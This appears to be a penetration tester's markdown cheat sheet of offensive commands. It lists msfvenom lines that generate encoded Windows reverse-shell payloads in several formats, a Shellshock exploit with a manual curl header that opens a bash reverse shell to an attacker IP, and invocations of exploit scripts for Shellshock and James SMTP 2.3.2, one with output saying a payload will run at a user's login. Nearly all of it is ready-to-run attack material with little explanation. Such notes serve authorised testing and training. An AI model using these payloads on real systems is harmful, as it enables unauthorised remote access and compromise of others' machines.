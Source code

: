 # msfvenom

## Windows

```bash

# if exes aren't allowed to upload or not executable a vbs script could be useful
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.0.61 LPORT=6666 EXITFUNC=thread -f loop-vbs

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.61 LPORT=18999 -f python -e x86/shikata_ga_nai -b "\x00\x0a\x0d"

msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.0.61 LPORT=6666 EXITFUNC=process -e PexFnstenvSub -f python

msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.0.61 LPORT=6666 -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -e PexAlphaNum -f python

# perl windows reverse shell
msfvenom -p windows/shell_reverse_tcp LPORT=6666 LHOST=10.11.0.61 -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -f perl

# javascript payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.61 LPORT=444 -f js_le -e generic/none
```

# Remote Exploits
## Shellshock

```bash
python 34900.py payload=reverse pages=/cgi-bin/admin.cgi rhost=<host-ip> lhost=10.11.0.61 lport=555
```

manually

```bash
 curl -H "User-Agent: () { test;};/bin/bash -i >& /dev/tcp/10.11.0.61/80 0>&1" http://website/cgi-bin/printenv
```

### shocker

```bash
python shocker.py --Host <host-ip>
```
## James SMTP

```bash
python james_smtp_2.3.2.py <server-ip>

[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in
```
